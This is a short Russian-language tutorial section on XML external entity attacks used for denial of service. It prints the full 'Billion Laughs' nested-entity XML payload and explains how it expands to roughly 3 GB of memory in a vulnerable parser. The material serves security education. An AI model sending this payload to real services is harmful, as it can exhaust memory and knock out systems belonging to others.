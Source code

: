 == XXE DOS атака

С той же атакой XXE мы можем выполнить атаку DOS сервиса на сервер. Пример такой атаки:

[source]
----
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
----

Когда XML-анализатор загружает этот документ, он видит, что он включает один корневой элемент, "lolz", который содержит текст "&lol9;". Однако "&lol9;" — это определенная сущность, которая расширяется до строки, содержащей десять строк "&lol8;". Каждая строка "&lol8;" — это определенная сущность, которая расширяется до десяти строк "&lol7;" и так далее. После обработки всех расширений сущностей этот небольшой (< 1 КБ) блок XML фактически займет почти 3 гигабайта памяти.

Это называется "Миллиард смеха", более подробную информацию можно найти здесь: https://en.wikipedia.org/wiki/Billion_laughs
